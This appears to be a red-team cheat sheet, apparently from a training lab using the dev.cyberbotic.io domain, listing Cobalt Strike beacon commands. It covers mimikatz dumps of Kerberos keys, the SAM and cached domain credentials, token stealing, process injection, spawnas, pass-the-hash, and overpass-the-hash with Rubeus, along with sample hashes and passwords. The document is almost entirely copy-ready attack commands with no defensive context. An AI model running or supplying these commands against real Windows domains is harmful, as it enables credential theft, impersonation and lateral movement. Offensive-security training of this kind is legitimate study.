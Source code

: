 ###### <font style="color:#00b3ff">Dump keberos encryption keys</font> 
```
beacon> mimikatz sekurlsa::ekeys
```

###### <font style="color:#00b3ff">Dump SAM</font> 
```
beacon> mimikatz lsadump::sam
```

###### <font style="color:#00b3ff">Get Domain Cached Credentials (to crack)</font> 
```
beacon> mimikatz lsadump::cache
```

###### <font style="color:#00b3ff">Impersonating a user (with his password, only works for network connection)</font> 
```
beacon> make_token DEV\jking myPassword
```

###### <font style="color:#00b3ff">Inject into process with pid 3320</font> 
```
beacon> inject 3320 x64 tcp-4444-local
```

###### <font style="color:#00b3ff">Token impersonation (needs admin privs)</font> 
```
beacon> steal_token 3320
beacon> ls \\srv-2\c$
beacon> rev2self
```

###### <font style="color:#00b3ff">Spawn new process with user credentials (doesn't need admin or System)</font> 
```
beacon> spawnas DEV\jking Purpl3Drag0n tcp-4444-local
```

###### <font style="color:#00b3ff">Pass the hash</font> 
```
beacon> pth DEV\jking 4ffd3eabdce2e158d923ddec72de979e
beacon> ls \\srv-2\c$

beacon> mimikatz sekurlsa::pth /user:jking /domain:dev.cyberbotic.io /ntlm:4ffd3eabdce2e158d923ddec72de979e
beacon> steal_token 6284
beacon> rev2self
beacon> kill 6284
```

###### <font style="color:#00b3ff">OverPass The Hash (use NTLM or AES key to request TGT)</font> 
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /rc4:4ffd3eabdce2e158d923ddec72de979e /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec
```
